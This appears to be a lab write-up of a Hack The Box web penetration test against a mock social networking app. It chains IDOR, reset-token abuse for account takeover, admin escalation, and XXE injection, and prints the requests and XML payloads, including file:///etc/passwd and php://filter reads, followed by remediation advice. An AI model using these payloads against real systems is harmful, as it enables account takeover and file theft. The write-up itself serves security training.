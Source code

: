 # Social Networking Application – Penetration Test Skill Assessment

**Author:** Jordan Davis  
**Platform:** Hack The Box Academy  
**Scenario:** Vulnerability Assessment of a Social Networking Application

---

## 🧠 Overview
This assessment simulated a **web application penetration test** against the latest build of a vulnerable social networking application.  
The objective was to enumerate, identify, and exploit multiple vulnerabilities to ultimately retrieve the final flag.

The engagement demonstrated how a chain of seemingly simple vulnerabilities — **IDOR, broken access control, insecure password reset, privilege escalation, and XXE injection** — can be combined into a full compromise.

---

## 🔑 Key Concepts
- Insecure Direct Object Reference (**IDOR**)  
- Broken Access Control  
- Burp Suite Intruder (parameter fuzzing)  
- Password Reset Token Abuse → Account Takeover  
- Privilege Escalation via Admin Account  
- XML External Entity (**XXE**) Injection  
- `php://filter` Wrapper Exploitation  

---

## 🛠️ Tools & Techniques
- **Burp Suite** (Intruder, Repeater, Proxy)  
- **Custom XML Payloads** for XXE exploitation  
- **Base64 decoding** for source code exfiltration  
- **Parameter fuzzing & token manipulation**  

---

## 📝 Walkthrough / Write-Up

### **Stage 1 – Initial Exploration**
Authenticated with provided test credentials. Observed the following request:

```
GET /api.php/user/74 HTTP/1.1
Cookie: PHPSESSID=...; uid=74
```

Response contained JSON user profile data. The predictable `uid` parameter suggested possible **IDOR**.

---

### **Stage 2 – IDOR Enumeration**
Used **Burp Intruder** to fuzz the `uid` parameter (1–100).  
Confirmed sensitive profile data exposure across users.

![Burp Intruder Fuzzing Attack](images/intruder-fuzz.png)

```
{
  "uid": "88",
  "username": "e.hagen",
  "full_name": "Eddie Hagen",
  "company": "Murphy - Hansen"
}
```

✅ **Impact:** Any authenticated user could enumerate all other users.

---

### **Stage 3 – Password Reset Token Abuse**
Discovered endpoint:
```
GET /api.php/token/{uid}
```
Returned valid password reset tokens for all users.  
Exploited by crafting reset requests:

```
GET /reset.php?uid=1&token=<stolen_token>&password=password
```

Result: Arbitrary **account takeover**.  

![Password Reset Abuse](images/token-abuse.png)

✅ Confirmed by resetting multiple accounts.

---

### **Stage 4 – Privilege Escalation**
During enumeration, identified admin account:

```
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

Reset password for UID 52 via token abuse. Logged in as **Administrator**, unlocking privileged functionality (XML event creation).

![Admin Enumeration](images/admin-enum.png)

✅ **Impact:** Full administrative access.

---

### **Stage 5 – XXE Injection**
The `/addEvent.php` endpoint accepted XML:

```xml
<root>
  <name>test</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Reflected `name` field made it ideal for injection.

**XXE Payload:**
```xml
<!DOCTYPE form [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>&file;</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Result: Retrieved `/etc/passwd`. Confirmed **XXE file read**.

![XXE Exploit](images/xxe-exploit.png)

---

### **Stage 6 – Flag Retrieval via php://filter**
Direct `.php` reads failed. Switched to `php://filter` for base64 exfiltration:

```xml
<!DOCTYPE form [
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
  <name>&file;</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Response returned base64-encoded file contents.  
Decoded locally → retrieved flag. ✅

---

## 🧱 Challenges Faced
- Wasted time fuzzing non-matching payloads.  
- Misjudged filter logic before pivoting to `php://filter`.  
- Token handling required precise request crafting.  

---

## 🛡️ Defense & Remediation

### 🔒 Access Control & IDOR
- Enforce server-side checks restricting data to owner.
- Replace sequential IDs with opaque identifiers (UUIDs).

### 🔑 Password Reset Security
- Tokens must be unpredictable, session-bound, and short-lived.
- Validate rightful ownership before allowing resets.

### 🧑‍💻 Privilege Separation
- Implement strict RBAC controls.
- Audit and restrict administrative endpoints.

### 🛡️ XXE Mitigation
- Disable external entity parsing in XML processors.
- Prefer JSON over XML for data exchange.
- Validate and sanitize all user-supplied input.

---

## 📊 Impact
- **Sensitive data exposure** (IDOR)
- **Arbitrary account takeover** (reset token abuse)
- **Full administrative compromise**
- **Arbitrary file read & source code disclosure**
- **Flag retrieval via XXE exploitation**

---

## ✅ Final Thoughts
This assessment highlighted how **low-to-medium severity issues can chain into complete compromise**:  
- IDOR → Account Takeover  
- Token Abuse → Admin Privileges  
- Admin Access → XXE Exploitation  
- XXE → Sensitive File Disclosure + Flag

This mirrors real-world penetration tests, where multiple misconfigurations compound into high-impact exploitation.

---

## 🔗 Author & Profiles
- **Author:** Jordan Davis  
- [GitHub Profile](https://github.com/jd-cybersec)  
- [LinkedIn Profile](https://www.linkedin.com/in/jordan-davis47/)
